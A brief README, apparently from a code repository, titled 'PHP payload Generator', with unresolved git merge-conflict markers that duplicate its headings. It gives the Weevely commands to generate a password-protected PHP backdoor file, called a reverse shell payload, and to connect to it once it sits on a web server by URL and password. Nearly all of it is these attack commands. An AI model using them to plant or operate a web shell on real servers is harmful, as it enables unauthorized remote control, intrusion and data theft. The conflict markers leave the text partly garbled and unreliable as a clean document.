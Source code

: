 <<<<<<< HEAD
#PHP payload Generator#

##To generate reverse shell payload##
```Weevely <password> /path/filename.php```

##To connect to the payload##
=======
# PHP payload Generator

## To generate reverse shell payload
```Weevely <password> /path/filename.php```
## To connect to the payload
>>>>>>> 3c5fe53e634694673e8f1a0f255234636187b49e
```Weevely <URL> <Password>```
